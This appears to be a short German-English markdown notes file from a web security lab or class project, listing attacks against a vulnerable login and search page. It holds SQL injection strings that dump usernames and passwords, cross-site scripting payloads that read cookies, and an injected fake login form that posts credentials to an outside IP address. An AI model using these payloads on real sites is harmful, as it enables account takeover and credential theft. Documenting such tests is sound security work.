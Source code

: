 # SQL Injections
Kann momentan beispielsweise durchgeführt werden, folgendes 
__" OR 1 = 1 #__ in das login-Username feld eingetragen wird wird. Hierdurch bekommt man alle User Zurück geliefert 
anstatt nur einen mit einer spezifischen ID.
Union Attack __%' UNION SELECT passw FROM Users #__ in Suchfeld
Query kann herausgefunden werden, indem man __%'__ in das suchfeld postet oder __"__ in das login-feld
__%' ORDER BY 4--__ to find out how many columns are in the table since this is important for the attack
__%' UNION SELECT NULL, NULL, username, passw, NULL FROM Users --__ to return userdata

# Cross-Site Scripting
Reflected XSS
Insert <script>alert();</script>
https://www.imperva.com/learn/application-security/reflected-xss-attacks/#:~:text=Reflected%20XSS%20attacks%2C%20also%20known,enables%20execution%20of%20malicious%20scripts.
https://www.youtube.com/watch?v=T0vxdqvW9fU&list=LL&index=3
```js
<script>alert(document.cookie); </script>
<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>
<IMG SRC=j&#X41vascript:alert('test2')>
```


# Brute-force attack

# Broken Encryption
Möglich wegen veraltetem Hashalgorythmus (SHA256) und weil kein Salt verwendet wird sind alle hashes deterministisch 

# HTML Injections
```html
<h3>Please login to proceed</h3> <form action=http://192.165.159.122>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Login"></br>
```
